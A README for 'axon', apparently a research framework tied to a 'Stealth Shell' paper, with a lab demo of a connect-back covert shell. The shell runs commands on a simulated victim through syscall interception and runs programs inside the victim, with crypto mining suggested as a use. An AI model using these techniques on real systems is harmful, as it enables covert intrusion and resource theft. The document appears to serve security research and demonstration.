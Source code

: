 # axon

Axon is my system for building Linux binaries that operate without a libc, can
be statically linked with self-relocation, and can be embedded in other
processes surreptitiously. It also includes mechanisms to interact with the ELF
file format, detour/patch functions, switch stacks, and pretty-print BPF 
instructions. With it I've experimented on an intrusive tracer, a library
sandboxer, a proxying virtualization layer, a minimal DNS client, and Callander.
Beware, it is not well documented.

# Building

Run `build.sh` to build axon and related components described in the Stealth Shell paper.

# Basic Demo

This will demo a basic stealth shell in a simplified environment. For simplicity, the "victim" executes a standard Linux binary that connects back to localhost and listens for commands. Real world scenarios would have an exploit deliver a second stage payload that listens for commands over a covert channel.

Start by launching two terminals: one to represent the "victim" and another to represent the "attacker"

In the "attacker" terminal, launch axon with your shell of choice:
```
# ./axon bash
```
This listens on port 8484 for an incoming victim connectback.

Next on the "victim" shell, run the simulated target command under strace:
```
strace -f ./target
```
This connects back to the attacker's machine, and sends a hello message indicating a client is ready to receive commands.

For clarity, this is run in strace so we can see the operations the "victim" is performing.

Notice that the "attacker" terminal now shows an awaiting shell prompt.

Try some local commands to see that this is a well behaving shell running on the attacker's machine:
```
ls -lah /
cat /etc/hostname
```

Note that the "victim" hasn't performed any additional operations and is still blocked on the same read syscall.

Now try the same commands on the /target virtual path:
```
ls -lah /target/
cat /target/etc/hostname
```

Note the same outputs, but this time the victim's strace output describes all of the getdirentries, statx, openat and read syscalls necessary to handle the `ls` and `cat` commands.

By intercepting the syscalls of bash and all of its subprocesses, axon directs operations on paths out of the virtual /target directory to run on the victim, while preserving operations on other paths

# Demo continued

We can also use axon to transparently run Linux programs inside the victim as a picoprocess with `texec`. For this demo, we'll burn CPU inside sha1sum, but a real crypto miner would do just as well.

From inside a axon-ified shell:
```
./texec sha1sum /target/dev/random
```

Now check which process is consuming CPU:
```
top
```
Note that the victim process "target" is running the computation, reading bytes out of its own /dev/random.
